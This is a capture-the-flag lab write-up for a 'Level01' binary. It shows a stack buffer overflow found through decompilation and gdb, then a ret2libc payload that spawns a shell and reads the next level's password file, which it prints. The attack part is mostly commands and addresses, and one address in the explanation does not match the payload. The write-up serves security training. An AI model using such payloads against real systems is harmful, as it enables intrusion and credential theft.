

# Level01

## Setup

We find a binary file at the root of the user **`level01`** named *`./level01`*.

And we copy the file with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4242 level01@<vm_ip>:/home/users/level01/level01 .
```

### Hex-Rays

From now on, we will mainly use an online decompiler explorer.
It will allow us to get an approximate c version of the program with less effort.

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Binary

We first tried to run the binary.
It asks for an admin login.
After trying a few random inputs, we only get an output stating "nope, incorrect username...", and it returns.

Time to disassemble!

### Source

Here we get to use godbolt to investigate.



From this code we can see two things:
- the admin login should be "dat_wil"
- whatever the password, we get "nope, incorrect password ...\n"

But, the developper reads a 100 characters in a 64 char long space on the stack.
A buffer overflow is possible.

### Overflow

After writing "dat_wil" as login, we try sending a very long string for the password.
We get a segmentation fault.
Say no more, we send a pattern.

```bash
gdb level01
> b main
> r < <(python -c "print 'dat_wil\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")
<<< Program received signal SIGSEGV, Segmentation fault.
0x41306141 in ?? ()
```

And `0x41306141` is the part of the pattern at an offset of 80.
We'll try to use a ret2libc technique.

We need:
- an address pointing to a string "/bin/sh" ***0xf7fcc000 + 15d7ec***
```bash
	> b main
	> r
	> info proc map
<<< Start Addr   End Addr       Size     Offset objfile
<<< ...
<<< 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
<<< ...
	> strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
<<< 15d7ec /bin/sh
```
- the address of `system`
```bash
	> p system
<<< $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- the address of `exit`
```bash
	> p exit
<<< $2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

We got everything.

When the segmentation fault happened, it was at the offset 80.
It means that 80 bytes after the start of the overflowed buffer, is stored the return address of the function `main()`.
If we change this address to `system()`, instead of continuing the execution of the code which called `main()`, we'll read the instructions of `system()`.
Therefore, if we set the parameter of `system()` to "/bin/sh", the program will open a shell as user=level02.

The pointer to `exit()` is here so `system()` returns to a proper exit of the program.

### Solution

Connect with `ssh -p 4242 level01@<vm_ip>`
Enter the password `level01`

```bash
python -c "print 'dat_wil\n' + 'A'*80 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload01
cat /tmp/payload01 - | ./level01
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
